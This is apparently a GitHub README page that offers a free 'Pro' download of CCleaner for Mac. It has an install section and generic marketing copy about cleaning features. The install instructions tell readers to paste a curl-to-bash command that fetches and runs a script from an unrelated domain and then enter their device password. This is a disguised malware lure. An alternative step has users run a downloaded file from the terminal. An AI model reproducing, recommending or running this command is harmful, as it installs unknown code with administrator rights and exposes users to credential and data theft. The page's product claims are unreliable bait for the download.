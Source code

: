 # CCleaner Pro for Mac – Optimize and Clean macOS

![CCleaner Pro Mac](https://blitzhandel24.imgbolt.de/media/image/e4/b6/f1/CCleaner-Professional-for-Mac.png)

## 📦 Download CCleaner Pro for Mac – Pro Version

[![⬇️ Download Now](https://img.shields.io/badge/Download-CCleaner%20Pro%20Mac-blue?style=for-the-badge&logo=apple)](https://ccleaner-pro-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is CCleaner Pro Mac?

**CCleaner Pro Mac** is an advanced cleaning and optimization utility designed specifically for macOS users who want to maintain top system performance with minimal effort. Unlike basic free tools, the Pro edition of CCleaner brings automation, smart cleaning logic, and enhanced privacy features that help keep your Mac running like new.

With modern macOS systems accumulating gigabytes of cache files, logs, duplicates, and digital clutter, CCleaner Pro Mac offers a powerful way to analyze and clean unnecessary system bloat. From browser junk to outdated system files, it helps you regain control over storage while ensuring your personal information stays private.

It’s particularly useful for creatives, developers, or professionals who rely on stable performance and want to avoid manual maintenance. CCleaner Pro also includes a powerful **startup optimizer**, helping to reduce Mac boot time, and a **real-time monitoring system** to catch bloat before it slows you down. Whether you're working on a MacBook Air, MacBook Pro, or iMac – and whether your system runs on Intel or Apple Silicon (M1/M2/M3) – CCleaner Pro Mac is fully optimized for macOS Ventura, Monterey, Sonoma, and beyond.

The Pro version adds **scheduled cleaning**, **automatic background scans**, and **priority support**, making it a smart choice for anyone who needs a set-it-and-forget-it cleaner. It's lightweight, effective, and trusted by millions of users worldwide.

---

![CCleaner Mac Screenshot](https://www.ingeniumweb.com/Themes/InGeniumWeb/Upload/2020/02.png)

---

## ✅ Why choose CCleaner Pro Mac?

Choosing **CCleaner Pro Mac** over free or built-in macOS utilities gives you a level of precision, automation, and control that basic tools simply can't match. Here’s why it stands out:

- **Fully Automated Cleaning**: Schedule system cleanups daily, weekly, or monthly — never think about it again.
- **Smart Junk Detection**: Intelligent algorithms identify which files are safe to delete and which are essential.
- **Real-Time Monitoring**: Get notified when too much clutter builds up, or let it clean automatically.
- **App Management**: Uninstall apps cleanly with zero residual files left behind.
- **Customizable Rules**: Choose exactly which types of files, folders, and apps to exclude from cleaning.
- **Enhanced Privacy**: Permanently erase browsing history, tracking cookies, saved passwords, and more with military-grade deletion.
- **macOS Optimization**: Compatible with both Intel and Apple Silicon chips, it’s tailored for modern Macs.
- **Secure and Trusted**: Developed by Piriform (now owned by Avast), it's a trusted brand in system optimization.

If you value performance, security, and automation on your Mac, **CCleaner Pro Mac** is the right tool to keep your system smooth and clutter-free.

---

## 🚀 Key Features

- 🧹 **Smart Cleaning** – Automatically detects and removes junk, temporary files, and system cache.
- 💾 **Free Up Disk Space** – Reclaims gigabytes of storage by removing clutter.
- 🔒 **Privacy Protection** – Clears browser history, cookies, and trackers.
- 🧠 **Startup Manager** – Disables unnecessary startup apps to improve boot time.
- 🧰 **App Uninstaller** – Cleanly removes apps and leftover files.
- 📆 **Scheduled Cleaning** – Set it once and let it clean automatically.
- 🔍 **Duplicate Finder** – Identifies and deletes duplicate files.
- 🔐 **Secure File Deletion** – Military-grade overwrite of deleted files.

---

## 💻 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space

---

## 🔍 Tags

ccleaner pro mac download, ccleaner pro mac, ccleaner for macbook pro, ccleaner professional for mac, ccleaner pro mac free download
